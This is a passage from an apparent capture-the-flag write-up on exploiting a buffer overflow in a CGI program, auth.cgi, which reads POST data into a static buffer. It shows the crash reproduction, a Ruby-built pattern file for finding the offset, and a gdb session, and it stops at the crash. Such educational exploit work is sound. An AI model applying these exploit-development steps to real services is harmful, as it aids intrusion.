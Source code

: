 The way CGI works - a fact that I'd forgotten since learning Perl like 20 years ago - is that the headers are processed by Apache and sent to the script as environmental variables, and the body (ie, POST data) is sent on stdin.

In that script, we read the `Content-Length` from a variable, then read that many bytes of the POST body into a static buffer. That's a fairly standard buffer overflow, with the twist that it's in a CGI application!

We can demonstrate the issue pretty easily by running the CGI directly (I'm using `dd` to produce 200 characters without cluttering up the screen):

```bash
$ dd if=/dev/urandom bs=1 count=200 | CONTENT_LENGTH=200 ./auth.cgi
Content-Type: text/plain

[...]
fish: Process 455756, './auth.cgi' from job 1, 'dd if=/dev/urandom bs=1 count=2…' terminated by signal SIGSEGV (Address boundary error)
```

## Getting the offset

There are a whole bunch of tools for this, but let's built it by hand!

We know that 200 bytes is enough to crash it. Since a memory address is 8 bytes on a 64-bit system, let's create a file that starts with 8 `A`s, 8 `B`s, etc. Do this however you like, but I like Ruby:

```
3.1.3 :007 > puts (?A..?Z).to_a.map { |c| c*8 }.join
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPPQQQQQQQQRRRRRRRRSSSSSSSSTTTTTTTTUUUUUUUUVVVVVVVVWWWWWWWWXXXXXXXXYYYYYYYYZZZZZZZZ

3.1.3 :008 > File.write('/tmp/poc.bin', (?A..?Z).to_a.map { |c| c*8 }.join)
 => 208
```

Then run the script in a debugger with that input:

```
$ CONTENT_LENGTH=208 gdb -q ./auth.cgi 
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin 
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain


Program received signal SIGSEGV, Segmentation fault.
0x000000000040175e in main (argc=1, argv=0x7fffffffdad8) at auth.c:32
```

Note that we set the `CONTENT_LENGTH` environmental variable before running the script, then run the binary with `run < /tmp/poc.bin`. The process crashes, so let's see where it crashes:
